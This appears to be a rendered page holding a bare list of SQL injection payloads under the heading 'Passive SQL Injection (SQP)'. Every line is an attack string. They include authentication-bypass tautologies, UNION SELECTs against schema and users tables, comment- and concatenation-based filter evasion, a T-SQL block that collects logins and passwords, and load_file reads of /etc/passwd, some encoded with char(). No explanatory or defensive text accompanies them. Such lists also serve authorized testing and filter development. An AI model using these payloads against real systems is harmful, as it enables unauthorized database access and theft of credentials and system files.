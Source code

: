 #### Passive SQL Injection (SQP)

`'||(elt(-3+5,bin(15),ord(10),hex(char(45))))`\
`||6`\
`'||'6`\
`(||6)`\
`' OR 1=1-- `\
`OR 1=1`\
`' OR '1'='1`\
`; OR '1'='1'`\
`%22+or+isnull%281%2F0%29+%2F*`\
`%27+OR+%277659%27%3D%277659`\
`%22+or+isnull%281%2F0%29+%2F*`\
`%27+--+`\
`' or 1=1--`\
`" or 1=1--`\
`' or 1=1 /*`\
`or 1=1--`\
`' or 'a'='a`\
`" or "a"="a`\
`') or ('a'='a`\
`Admin' OR '`\
`'%20SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES--`\
`) UNION SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES;`\
`' having 1=1--`\
`' having 1=1--`\
`' group by userid having 1=1--`\
`' SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = tablename')--`\
`' or 1 in (select @@version)--`\
`' union all select @@version--`\
`' OR 'unusual' = 'unusual'`\
`' OR 'something' = 'some'+'thing'`\
`' OR 'text' = N'text'`\
`' OR 'something' like 'some%'`\
`' OR 2 > 1`\
`' OR 'text' > 't'`\
`' OR 'whatever' in ('whatever')`\
`' OR 2 BETWEEN 1 and 3`\
`' or username like char(37);`\
`' union select * from users where login = char(114,111,111,116);`\
`' union select `\
`Password:*/=1--`\
`UNI/**/ON SEL/**/ECT`\
`'; EXECUTE IMMEDIATE 'SEL' || 'ECT US' || 'ER'`\
`'; EXEC ('SEL' + 'ECT US' + 'ER')`\
`'/**/OR/**/1/**/=/**/1`\
`' or 1/*`\
`+or+isnull%281%2F0%29+%2F*`\
`%27+OR+%277659%27%3D%277659`\
`%22+or+isnull%281%2F0%29+%2F*`\
`%27+--+&password=`\
`'; begin declare @var varchar(8000) set @var=':' select @var=@var+'+login+'/'+password+' ' from users where login > `\
` @var select @var as var into temp end --`\
` ' and 1 in (select var from temp)--`\
`' union select 1,load_file('/etc/passwd'),1,1,1;`\
`1;(load_file(char(47,101,116,99,47,112,97,115,115,119,100))),1,1,1;`\
`' and 1=( if((load_file(char(110,46,101,120,116))<>char(39,39)),1,0));`
